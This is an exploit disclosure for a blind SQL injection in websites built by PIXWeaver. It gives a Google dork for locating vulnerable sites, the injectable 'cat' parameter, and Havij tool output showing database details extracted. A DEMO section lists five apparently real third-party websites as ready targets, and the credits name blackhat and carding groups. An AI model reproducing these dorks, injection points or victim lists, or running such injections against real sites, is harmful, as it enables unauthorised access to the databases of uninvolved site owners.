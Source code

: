 #Website by PIXWeaver Blind SQL Injection Disclosure

* Exploit Title        : Website by PIXWeaver Blind SQL Injection Disclosure
* Google Dork          : inurl:/inform.php?cat=
* Date                 : 26/08/2014
* Exploit Author       : Barrabravaz
* Vendor Homepage      : http://www.pixweaver.com/
* Version              : -
* Tested on            : Windows, Linux

## Author will be not responsible for any damage
#### Issue: 
##### Blind SQL Injection Disclosure Vulnerability
#### Risk level: High

### Proof Of Concept:
`http://127.0.0.1/inform.php?cat=%inject_here%&pv=45`
* ( take Havij for example )
* Host IP: 207.112.70.25
* Web Server: Apache/2.2.27
* Powered-by: PHP/5.4.16
* Keyword Found: Last
* Injection type is String (')
* DB Server: MySQL >=5
* Trying another method using keyword for finding columns count
* Findig columns count for MySQL failed!
* Testing for MySQL error based injection method
* MySQL error based injection method cant be used!
* Trying blind method
* Finding current data base
* Length of 'Current DB' is 7
* Current DB: test_db

## DEMO
`http://toybuildingzone.com/inform.php?cat=%inject_here%&pv=45`
`http://www.sportsystemscorp.com/inform.php?cat=%inject_here%`
`http://www.cantow.ca/inform.php?cat=%inject_here%&nv=188`
`http://www.agl.ca/inform.php?cat=%inject_here%&nv=23`
`http://www.movemyhottub.ca/inform.php?cat=%inject_here%&nv=150`

## Thanks To
* Allah SWT
* Cyptn my beloved
* $$Hunter
* IDC
* Jim Geovedi
* Yogyakarta Blackhat
* Yogyacarderlink
* And you...

* Discovered By Barrabravaz
* barrabravaz@outlook.com 
* jasasekuritionline[dot]com
* https://fb.me/akubocahmuyank

[Original Article](http://www.surabayablackhat.org/forum/thread-3112.html)
